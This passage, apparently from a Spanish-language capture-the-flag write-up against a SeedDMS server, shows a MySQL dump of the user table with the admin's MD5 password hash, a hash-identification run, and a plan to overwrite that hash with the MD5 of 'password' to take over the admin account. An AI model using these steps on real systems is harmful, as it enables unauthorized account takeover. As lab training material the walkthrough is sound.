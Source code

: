 ```bash
+-------------+---------------------+--------------------+-----------------+
1 row in set (0,013 sec)


MySQL [seeddms]> select * from tblUsers;
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
| id | login | pwd                              | fullName      | email              | language | theme | comment | role | hidden | pwdExpiration       | loginfailures | disabled | quota | homefolder |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
|  1 | admin | f9ef2c539bad8a6d2f3432b6d49ab51a | Administrator | address@server.com | en_GB    |       |         |    1 |      0 | 2021-07-13 00:12:25 |             0 |        0 |     0 |       NULL |
|  2 | guest | NULL                             | Guest User    | NULL               |          |       |         |    2 |      0 | NULL                |             0 |        0 |     0 |       NULL |
+----+-------+----------------------------------+---------------+--------------------+----------+-------+---------+------+--------+---------------------+---------------+----------+-------+------------+
2 rows in set (0,001 sec)
```

Como no podemos descifrar la password del usuario `admin`, que parece ser MD5, la vamos a cambiar.

```bash
❯ hashid f9ef2c539bad8a6d2f3432b6d49ab51a
Analyzing 'f9ef2c539bad8a6d2f3432b6d49ab51a'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```

Usamos la contraseña `password`{: .filepath} encriptada en MD5= "5f4dcc3b5aa765d61d8327deb882cf99"
